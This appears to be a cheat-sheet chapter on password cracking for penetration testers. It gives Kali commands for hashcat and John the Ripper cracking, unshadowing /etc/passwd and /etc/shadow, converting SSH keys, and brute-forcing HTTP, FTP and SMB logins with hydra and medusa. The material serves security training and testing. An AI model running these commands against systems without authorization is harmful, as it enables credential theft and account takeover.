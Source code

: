 #Chapter 7 - Cracking

> The time to crack a password is related to bit strength, which is a measure of the password's entropy and the details of how the password is stored. Most methods of password cracking require the computer to produce many candidate passwords, each of which is checked. One example is brute-force cracking, in which a computer tries every possible key or password until it succeeds. More common methods of password cracking, such as dictionary attacks, pattern checking, word list substitution, etc. attempt to reduce the number of trials required and will usually be attempted before brute force. Higher password bit strength exponentially increases the number of candidate passwords that must be checked, on average, to recover the password and reduces the likelihood that the password will be found in any cracking dictionary.
>
> _**— Wikipedia**_

looking for contributions to this section. Please DM me on [Twitter](https://twitter.com/dostoevskylabs)

#### Hash Identification

```
Kali> hash-identifier
> HASH64256BLOOBLAHHAHAHEHE
```

#### Decoding

```
Kali> echo"BASE64"| base64 -d
Kali> echo"d3 4d b3 3f"| xxd -r -ps
```

#### Wordlist Generation

###### Crunch

```
Kali> crunch 6 6 0123456789ABCDEF -o crunch.txt
```

###### CEWL

```
Kali> cewl www.wikipedia.com -m 6 -w passwords.txt
```

###### John

```
Kali> nano /etc/john/john.conf
Kali> john --wordlist=passwords.txt --rules --stdout > mutated
```

#### Cracking

###### Hashcat

```
Kali> hashcat -m 400 -a 0 hash /usr/share/wordlists/rockyou.txt
Kali> oclHashcat64.bin -m 110 hash.txt ../wordlist.txt --force
```

[Hashcat man page & hash types](https://tools.kali.org/password-attacks/hashcat)

###### Converting for John attacks

```
Kali> ssh2john file > newfile
Kali> unshadow /etc/passwd /etc/shadow > unshadowed.txt
```

###### John

```
Kali> john crackfile --wordlist=/usr/share/wordlists/rockyou.txt
```

[John Hash Types](http://pentestmonkey.net/cheat-sheet/john-the-ripper-hash-formats)

#### BruteForcing

###### Hydra

```
Kali> hydra -l admin -P /usr/share/wordlists/rockyou.txt $TARGET http-post-form "/department/login.php:username=^USER^&password=^PASS^&Login=Login:Invalid Password" -V -I

Kali> hydra -L /path/to/file/usernames.txt -P /path/to/file/passwords.txt $TARGET ftp

Kali>hydra -l administrator -P /path/to/file/passwords.txt -t 1 $TARGET smb
	-t 1 = number of times to try
```

###### Medusa

```
Kali> medusa -h $TARGET -u admin -P passwords.txt -M http -m DIR:/admin -T 10
```



